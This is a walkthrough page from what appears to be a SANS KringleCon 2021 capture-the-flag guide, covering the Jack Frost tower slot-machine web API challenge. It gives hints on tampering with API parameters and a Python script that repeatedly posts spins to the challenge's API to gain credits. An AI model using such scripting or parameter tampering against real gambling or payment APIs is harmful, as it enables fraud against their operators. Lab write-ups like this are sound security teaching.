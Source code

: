 ## Summary
Inside the Jack Frost tower, click a slot machine and practice web api hacking!

[Next Challenge](5%20-%20Strange%20USB%20Device.md)\
[Back to Table of Contents](https://github.com/minispooner/SANS_KringleCon_2021_Walkthrough/blob/main/README.md)

## Steps
1. Open up BurpSuite and scope the target to the web app or start persisting network traffic in your browser's developer console. Get to know the few main web app calls that your client makes.
2. Try to get 1000+ credits!

<details>
  <summary>Hint 1</summary>
  After finding the /spin api call, I tried modifying the betamount param with N>credit_amount (like 1001) but that failed. I then tried raising the cpl field to a large ammount and also tried changing the numline but both failed as well. At this point, how could we beat the odds? Try scripting it!
</details>

<details>
  <summary>Answer</summary>

```
import requests

for i in range(0,10):
    s = requests.Session()
    s.get('https://slots.jackfrosttower.com/')
    # print(r.cookies['slots_session'])
    r = s.get('https://slots.jackfrosttower.com/api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/session')
    session_id = r.json()['data']['session_id']

    for j in range(0,10):
        h = {'X-Ncash-Token': session_id}
        r = s.post(
            'https://slots.jackfrosttower.com/api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/spin',
            data={
                'betamount':'10',
                'numline':20,
                'cpl':0.5
            },
            headers=h
        )
        if not r.json()['success'] or r.json()['data']['credit']<10:
            break
        else:
            print(r.text)
```
  
  Answer text: "I'm going to have some bouncer trolls bounce you right out of this casino!"
</details>

